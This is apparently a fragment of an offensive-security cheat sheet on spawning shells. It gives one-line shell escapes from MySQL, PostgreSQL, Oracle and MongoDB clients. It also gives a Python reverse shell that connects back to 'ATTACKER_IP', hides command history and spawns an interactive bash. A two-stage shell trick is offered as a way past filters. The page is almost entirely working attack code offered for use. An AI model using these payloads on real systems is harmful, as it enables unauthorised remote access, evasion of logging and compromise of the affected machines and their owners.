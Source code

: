 
## Database Shell Spawns

### MySQL
```sql
\! sh
-- or
system sh
```

### PostgreSQL
```sql
\! /bin/sh
```

### Oracle SQL
```sql
host /bin/bash
```

### MongoDB
```javascript
db.adminCommand({eval: "function(){ return runProgram('/bin/sh') }"})
```

---

## Advanced Techniques

### Python fully interactive TTY
```python
import pty
import socket
import os

s = socket.socket()
s.connect(('ATTACKER_IP', PORT))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
os.putenv('HISTFILE', '/dev/null')
pty.spawn('/bin/bash')
s.close()
```

### Staged shell spawn (useful for filters)
```bash
# Stage 1 - small initial payload
echo "exec /bin/bash" > /tmp/.s
# Stage 2 - execute
bash </tmp/.s
```
